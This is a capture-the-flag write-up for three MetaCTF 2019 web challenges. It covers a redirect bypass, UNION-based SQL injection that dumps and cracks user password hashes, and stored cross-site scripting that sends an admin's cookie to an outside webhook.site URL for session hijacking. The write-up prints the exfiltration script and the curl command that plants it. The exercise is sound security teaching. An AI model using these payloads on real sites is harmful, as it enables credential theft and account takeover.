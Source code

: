 ```yaml
---
title: MetaCTF 2019 Writeups
author: Andy Smith
---
```


# Web Exploitation
## C3 Internal Knowledge Base
![c3_employee_knowledgebase.png](/assets/images/metactf/c3_employee_knowledgebase.png)
In this problem we're given a login page and need to access the internal wiki. Trying to browse to the wiki gives a 302 Found redirect with a header `Location: ./?error=unauthorized&source=./knowledgebase.php`. Chrome happily follows this redirect and does not display any information in the response body, however if we use a command line tool like `curl` we can just ignore this redirect. Running `curl https://problems.metactf.com/content/logout-protected/knowledgebase.php` we get the contents of the wiki. Scrolling through the lorem ipsum text, we can find `<b>MetaCTF Flag: rest_in_peace_php_die_function</b>`. 


## Lab Equipment Reservation
![lab_equipment_1.png](/assets/images/metactf/lab_equipment_1.png)

This problem starts off looking similar to the previous. Based on the URL (https://problems.metactf.com/content/sq-labs-nb) this is probably a SQL injection challenge. I tried the login page first but the username and password fields appeared to not be injectable. There is however another page, and it has a search box.

![lab_equipment_2.png](/assets/images/metactf/lab_equipment_2.png)

I first tried adding a `'` to the search, and we get a SQLite3 error:

```sql
SQLite3 error: cannot prepare statement, unrecognized token: "'"
SELECT * FROM equipment WHERE item_name LIKE '%'%'
```

This gives us the entire query. We can easily escape this by using an apostrophe. Now it's time to find the users table. Through a small amount of trial and error, you can find that the users table is called `users`. I tried to select from this table using `'; SELECT * FROM users;` but it appears that the page is only giving us results from the first query. So we can instead append the user data to the lab data using a `UNION` operator. I tried searching with `' UNION SELECT * FROM users;` but it gives the error:

```sql
SQLite3 error: cannot prepare statement, SELECTs to the left and right of UNION do not have the same number of result columns
SELECT * FROM equipment WHERE item_name LIKE '%' UNION SELECT * FROM users;%'
```

If you use a `UNION` operator, the tables you concatenate must both have the same number of columns. To get around this, we can pad the users table with a `null` column. Running `' UNION SELECT *, null FROM users;` gives us an appropriate output, meaning the users table must have 4 columns since we know the equipment table has 5. Now the table has more rows, and a few stick out as possible usernames like the row below:

![lab_equipment_3.png](/assets/images/metactf/lab_equipment_3.png)

I noticed that the serial number column looks more like a hash for the user rows, so maybe this is the password hash? We need some way of reordering the columns so the password column is not masked. Using more trial and error, I found that the username column is named username, but the password column is not called anything normal (password, passwd, pass, pw, pwd, etc). So how do we reorder columns in SQL if we don't know their names? I tried getting the schema for the various SQLite methods for this like `pragma table_info(users)` and `.schema` but these did not process correctly or were ignored by the server. This means we need to find a way of reordering the columns without knowing their names. Using a SQL subquery, we can construct our own table and change the order of the columns. The command I used is:

```sql
UNION SELECT T.a, T.b, T.c, T.d, null FROM (SELECT "a", "b", "c", "d" UNION SELECT * FROM USERS) AS T;
```

Inside the subquery above, I create a data set with `SELECT "a", "b", "c", "d"`. SQLite by default will use these values as the names of the columns in this temporary table. Using `UNION SELECT * FROM USERS`, we now have the USERS table but with columns named a, b, c, and d. Naming this temporary table `T`, We can select the individual columns from T using `T.a`, `T.b`, etc. Looking at the rows in the users column, we can see that the columns are probably id, username, name, and password. Updating our query with more friendly column names, we have:

```sql
UNION SELECT null, T.username, T.password, null, null FROM (SELECT "id", "username", "name", "password" UNION SELECT * FROM USERS) AS T;
```

This query above reorders the columns so that the username and password columns are not masked. Now it looks like we have password hashes!

![lab_equipment_4.png](/assets/images/metactf/lab_equipment_4.png)

Unfortunately, these hashes are only 21 characters long and I'm not familiar with any hashes of that length. This column must truncate to 21 characters. Luckily, SQL has a `SUBSTR` function to return a substring. By running two different SQL queries, we can get the first and last parts of the password hash:

```sql
UNION SELECT null, T.username, SUBSTR(T.password, 0, 22), null, null FROM (SELECT "id", "username", "name", "password" UNION SELECT * FROM USERS) AS T;

UNION SELECT null, T.username, SUBSTR(T.password, 22, 22), null, null FROM (SELECT "id", "username", "name", "password" UNION SELECT * FROM USERS) AS T;
```

Running these two commands separately and then concatenating the two values from the user "bison", we get a hash of `d6be6322d62ab5222f4894049e4408bf`. This has a length of 32 characters, which looks suspiciously like MD5. Searching this hash on CrackStation or HashKiller, we find the password is `monkey12`. Logging in with username `bison`, password `monkey12`, we are presented with the flag `jimmy_needs_some_help_lets_hire_little_bobby_tables`

![lab_equipment_5.png](/assets/images/metactf/lab_equipment_5.png)


## Josh's Sleek Blog
![sleek_1.png](/assets/images/metactf/sleek_1.png)

This problem shows an input box to post on Josh's Sleek Blog. Posting some bogus data along with some HTML, we see that HTML is being escaped and script tags don't appear to work.

![sleek_2.png](/assets/images/metactf/sleek_2.png)

However, looking at the payload of the POST we send in the browsers's devtools, we see that the form data sent is already escaped before it reaches the server: 

```
content: <p>&lt;a&gt;Test&lt;/a&gt;</p><p>&lt;script&gt;alert(1)&lt;/script&gt;</p>
```

They are probably only doing client-side sanitization. Now we can do some cross-site scripting. But what can we do? At the bottom of the page, there is an email address provided:

> Feel free to email me with any suggestions for the blog!
> jhatsman1974@gmail.com

If we send a link to our page with malicious JavaScript on it, the site owner will probably click on the link and we can steal his cookie. To be sure we can view cookies using JS, they have to not be marked HttpOnly. Luckily, the `SLEEK_BLOG_SID` cookie is not marked HttpOnly. I crafted up some JS to base64 encode the cookie and send it to a site.

```javascript
<script>var Http = new XMLHttpRequest(); var url="https://webhook.site/324798d6-d071-4174-a84a-15b3c7946216?cookie=" + btoa(document.cookie); Http.open("GET", url);Http.send();</script>
```

I am using [webhook.site](https://webhook.site) which allows you to easily monitor requests to a given URL and can act as a listener for our cookie exfil request. I created a new URL and enabled CORS via the checkbox on the top bar. This will automatically add CORS headers to the responses it sends, otherwise the user's browser will block the request. Now we just need to combine this all together. I URL encoded the JS payload so that we can send it in the content field in the POST request:

```
%3Cscript%3Evar%20Http%20%3D%20new%20XMLHttpRequest%28%29%3B%20var%20url%3D%22https%3A%2F%2Fwebhook.site%2F324798d6-d071-4174-a84a-15b3c7946216%3Fcookie%3D%22%20%2B%20btoa%28document.cookie%29%3B%20Http.open%28%22GET%22%2C%20url%29%3BHttp.send%28%29%3B%3C%2Fscript%3E
```

In Chrome (and other browsers), you can right-click on the request for the post we created earlier in the Network tab and copy the request as a cURL.

![sleek_3.png](/assets/images/metactf/sleek_3.png)

Pasting that into the terminal, I modified the `--data="content=...` parameter with the URL encoded JS payload.

```bash
curl 'https://problems.metactf.com/content/sleekblog/pages/' -H 'Origin: https://problems.metactf.com' -H 'Content-Type: application/x-www-form-urlencoded' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3' -H 'Referer: https://problems.metactf.com/content/sleekblog/pages/' -H 'Cookie: SLEEK_BLOG_SID=aa4293832d270247c81387e9f4820ba4;' --data 'content=%3Cscript%3Evar%20Http%20%3D%20new%20XMLHttpRequest%28%29%3B%20var%20url%3D%22https%3A%2F%2Fwebhook.site%2F324798d6-d071-4174-a84a-15b3c7946216%3Fcookie%3D%22%20%2B%20btoa%28document.cookie%29%3B%20Http.open%28%22GET%22%2C%20url%29%3BHttp.send%28%29%3B%3C%2Fscript%3E' --compressed
```

We get a successful result. Searching through te HTML, our new blog post is at `view.php?id=4334073`, so browsing to [https://problems.metactf.com/content/sleekblog/pages/view.php?id=3145041](https://problems.metactf.com/content/sleekblog/pages/view.php?id=3145041) will send the cookie to our webhook.site URL. Now all that is left is to email a link to this page to the email provided on the blog. Sure enough, we get an email response that our URL was clicked:

![sleek_4.png](/assets/images/metactf/sleek_4.png)

Checking our listener on webhook.site, there is a new request with a cookie parameter:

![sleek_5.png](/assets/images/metactf/sleek_5.png)

Base64 decoding this gives us the admin's `SLEEK_BLOG_SID` cookie. We can replace our cookie with the one we just received using the JS console on the page:

```javascript
document.cookie = "SLEEK_BLOG_SID=541a8fe437325df4a9ae026ad2cfa376"
```

Navigating to the homepage, the blog shows us the flag `c4nt_fa11_4_ph1shing_scam5_1f_u_d0nt_ch3ck_y0ur_3ma1l`

![sleek_6.png](/assets/images/metactf/sleek_6.png)